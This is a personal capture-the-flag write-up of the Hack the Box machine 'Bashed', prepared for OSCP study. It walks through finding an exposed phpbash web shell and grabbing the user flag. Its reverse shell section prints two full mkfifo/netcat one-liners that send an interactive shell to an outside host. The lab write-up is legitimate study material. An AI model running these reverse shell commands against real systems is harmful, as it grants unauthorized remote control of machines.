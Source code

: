 # Website

This website seems to be a promotional page for a replica bash shell written in PHP.

![[Pasted image 20210505083541.png]]

The links all point back to `index.html`

![[Pasted image 20210505085925.png]]

I also checked the source, but there were no hidden links and the form submission didn't go anywhere. It did mention PHP:

![[Pasted image 20210505090749.png]]

As the source and the site itself both mention php, I quickly checked if the `.php` extension was valid:

![[Pasted image 20210505085959.png]]

But it seemed the index page at least was running on pure HTML.

The blog post, dated in 2017, suggests that the web shell is available on the server, and even gives us a potential URL:

![[Pasted image 20210505090142.png]]

We can also see the source code at: [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash). We'll come back to this if needed.

I tried the URL from the screenshot, but it was not found:

![[Pasted image 20210505090246.png]]

Neither was `/phpbash.php`.

## PHP Web Shell

I ran a [[Writeups/Hack the Box/Boxes/Bashed/5 - Enumeration#Gobuster|quick gobuster]] to check for potential directories for the script. It found `/php/` and `/dev/`. I tried `/php/phpbash.php`, and then `/dev/phpbash.php`, which worked:

![[Pasted image 20210505090543.png]]

I did some very quick enumeration, looking for users and quickly finding that `arrexel`'s home directory was world-readable. This gives us the user flag:

![[Pasted image 20210505091030.png]]

## Trying to Get a Reverse Shell

Before I enumerated more for priv esc, I wanted a better shell. I tried a few commands, to no avail:

![[Pasted image 20210505093721.png]]

I googled "netcat openbsd reverse shell" and tried the following commands:

```bash
www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f

www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 9001 >/tmp/f
```

But I got no result.

I also tried the `upload` custom command mentioned in the source code, to no avail.

![[Pasted image 20210505101232.png]]

I decided to continue with enumeration and come back to this once I'd rooted the box and see if anyone had done it in a writeup. I would eventually [[15 - Privesc#Upgrading Shell|upgrade my shell]].

# Tags

#writeup #oscp-prep #web 